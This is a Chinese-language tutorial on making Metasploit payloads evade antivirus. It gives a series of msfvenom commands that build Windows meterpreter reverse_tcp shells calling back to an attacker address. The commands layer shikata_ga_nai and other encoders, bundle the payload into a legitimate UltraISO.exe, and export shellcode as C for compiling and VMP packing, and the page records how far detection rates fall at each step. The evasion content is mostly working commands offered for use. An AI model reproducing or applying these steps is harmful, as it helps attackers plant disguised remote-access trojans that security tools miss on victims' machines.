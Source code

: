 杀软是如何检测出恶意代码的？
特征码、启发式恶意软件检查和行为。
免杀是做什么？
对特征进行混淆，打乱代码，避免杀毒软件查杀
免杀的基本方法有哪些？
自编码处理  自捆绑+编码  多重编码   接口下载式  签名伪装式

针对杀毒软件的基本检测方法，我们可有以下几种方法实现免杀：

改变特征码
改变行为
其它

由于msf被各大安全厂商盯的比较紧，所以这些常规的方法免杀效果肯定是比较差的，但有时把一两种常规方法稍微结合一下就能达到比较好的免杀效果

要用到的在线查毒工具virscan提供

https://www.virscan.org/

# 一、不处理payload直接生成样本进行检测

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.32 LPORT=4456 -f exe -o payload1.exe

![[1645511560404.png]]

进行查毒有41%的杀毒软件报毒了

具体查毒链接：https://r.virscan.org/language/en/report/27ea53bab44e0a023b57c27991f02cf9

![[1645511550808.png]]

# 二、 MSF自编码处理payload生成样本进行检测

首先我们输入   msfvenom --list encoders   查看可以用编码模块

![[1645511543145.png]]

我们使用  x86/shikata_ga_nai 模块 免杀中使用频率最高的一个编码器

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai HOST=192.168.110.110  LPORT=4456 -f exe -o payload1.exe

进行查毒有37%的杀毒软件报毒了

![[1645511533351.png]]

# 三、MSF自捆绑处理payload生成样本进行检测

使用msfvenom的-x参数可以指定一个可执行文件,将payload与其捆绑

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -x UltraISO.exe -f exe -o payload2.exe

![[1645511525813.png]]

进行查毒有37%的杀毒软件报毒了

![[1645511516751.png]]

# 四、MSF自捆绑+编码处理payload生成样本进行检测

结合第二种，第三种。编码方式我们再次生成样本

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -e x86/shikata_ga_nai -x UltraISO.exe  -i 10 -f exe -o payload3.exe

![[1645511507586.png]]

进行查毒有31%的杀毒软件报毒了

![[1645511497457.png]]

那我们继续增加编码次数

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -e x86/shikata_ga_nai -x UltraISO.exe  -i 20 -f exe -o payload4.exe

进行查毒有27%的杀毒软件报毒了!

![[1645511487704.png]]

# 五、MSF多重编码payload生成样本进行检测

通过管道，让msfvenom用不同编码器反复编码进行混淆。使用管道让msfvenom对攻击载荷多重编码，先用shikata_ga_nai编码10次，接着来10次的alpha_upper编码，再来10次的countdown编码，最后才生成以payload5.exe为模板的可执行文件。

msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=192.168.110.110 LPORT=4456 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw | msfvenom -e x86/countdown -i 10 -x UltraISO.exe -f exe -o payload5.exe

# 六、 生成Shellcode使用C语言调用

1、直接在linux中利用msf的meterpreter生成的文件以.c形式文件存储，得到机器码。命令：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -f c >c0001.c

![[1645511458128.png]]

2、改c文件，并编译，并加壳

![[1645511469800.png]]

随便写一个hello world

main() {
printf("hello world\n");
}

然后编译 并加壳

vmp加壳工具